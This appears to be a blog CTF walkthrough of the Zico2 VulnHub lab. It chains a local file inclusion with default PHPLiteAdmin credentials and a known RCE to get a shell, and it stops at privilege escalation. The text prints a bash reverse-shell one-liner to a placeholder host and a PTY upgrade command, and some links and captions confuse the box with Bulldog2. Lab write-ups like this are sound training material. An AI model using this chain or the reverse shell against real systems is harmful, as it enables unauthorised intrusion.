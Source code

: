 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! Although this appeared to be just one vulnerability that had to be chained to another to exploit this system. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG)   
A quick Google shows us that the default password for this installation is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1  
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	python -c 'import pty; pty.spawn("/bin/bash")'
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  











